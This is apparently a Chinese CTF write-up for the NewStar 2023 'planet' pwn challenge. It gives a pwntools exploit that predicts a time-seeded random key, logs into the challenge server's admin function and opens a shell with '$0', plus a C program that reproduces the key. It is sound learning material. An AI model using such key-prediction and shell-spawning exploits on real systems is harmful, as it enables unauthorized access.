 ```yaml
---
title: newstar2023 week5 - planet
date: 2023/10/24 12:00:00
tags:
    - result predicting
---
```


## 文件分析

下载`planet`, NX on, PIE on, Canary on, RELRO partial  
ghidra分析为64位程序

## 解题思路

有后门函数，虽然有随机数，但以时间为种子，直接模拟攻击；
命令限长，就用"$0"打开shell

官方wp有对链表的利用，不管了，能打通就是好exp

## EXPLOIT

```python
from pwn import *
def payload(delay:int):
    probe = process(['seedprobe2', str(delay)])
    key = probe.recvline(False)
    print(f'key to shell is: {key.decode()}')
    probe.close()

    sh = remote('node4.buuoj.cn', 25321)
    sh.sendlineafter(b':', b'secret_passwd_anti_bad_guys')
    sh.sendlineafter(b'>', b'Admin') # enter Admin func
    sh.sendlineafter(b'>', key)      # send calced key
    sh.interactive()
    #$0
    #cat flag

payload(5)
```

```c
// seedprobe2.c
#include <stdio.h>
#include <time.h>
#include <stdlib.h>
#define STRLEN 31

int main(int argc, char **argv) {
    if (argc == 1) {
        puts("no time input!");
        return 0;
    } 
    int delay = -1;
    delay = atoi(argv[1]);
    if (delay == -1) {
        puts("invalid time input");
        return 0;
    }
    time_t init = time(NULL) + delay;
    srand(init);
    for (int i = 0; i < 55; i++)
        rand();
    char ret[STRLEN];
    for (int i = 0; i < STRLEN - 1; i++) 
        ret[i] = "abcdefghijklmnopqrstuvwxyz"[rand() % 26];
    ret[STRLEN - 1] = '\0';
    puts(ret);
    return 0;
}
```

## 第一次一血！

<img src="/assets/newstar2023/1stBlood.jpg" width="40%" title="好耶">

Done.
